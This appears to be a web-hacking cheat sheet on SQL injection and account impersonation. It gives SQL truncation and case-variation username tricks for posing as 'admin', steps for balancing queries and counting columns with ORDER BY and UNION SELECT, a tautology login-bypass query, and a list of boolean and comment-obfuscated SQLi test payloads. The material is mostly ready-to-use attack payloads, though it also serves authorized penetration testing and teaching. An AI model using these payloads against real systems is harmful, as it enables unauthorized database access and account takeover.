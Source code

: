 To do so you should try to **create a new object named as the "master object"** (probably **admin** in case of users) modifying something:

* Create a user named: **AdMIn** (uppercase & lowercase letters)
* Create a user named: **admin=**
* **SQL Truncation Attack** (when there is some **length limit** in the username or email) --> Create a user with the name: **admin \[a lot of spaces] a**
*   [**`SQL Truncation Attack`**](https://heinosass.gitbook.io/leet-sheet/web-app-hacking/interesting-outdated-attacks/sql-truncation)

    If the database is vulnerable and the max number of chars for a username is 30 and you want to impersonate the user **admin**, try to create a username called: "_admin \[30 spaces] a_" and any password.



## How to Exploit it ?&#x20;

1. **Find the injection Point.**
2. **Fix Quary or Balance SQLI**
   1. **in GET we add '--+**
   2. **in POST we add '--**<mark style="color:red;">**SPACE**</mark>** or '**<mark style="color:red;">**#**</mark>
3. **Find the total number of vuln Columns**&#x20;
   1. **Order by **<mark style="color:orange;">**n**</mark>
   2. **UNION select 1,2,3,4,**<mark style="color:red;">**n-1**</mark>** => look Different number of Columns**
   3. **WHERE OR HAVING**
   4. **version() to test**&#x20;

## How to perform a Query

```sql
"SELECT * From users where username='ad' or 1=1--'";
```

### SQL Logic

```sql
true
1
1>0
2-1
0+1
1*1
1%2
1 & 1
1&1
1 && 2
1&&2
-1 || 1
-1||1
-1 oR 1=1
1 aND 1=1
(1)oR(1=1)
(1)aND(1=1)
-1/**/oR/**/1=1
1/**/aND/**/1=1
1'
1'>'0
2'-'1
0'+'1
1'*'1
1'%'2
1'&'1'='1
1'&&'2'='1
```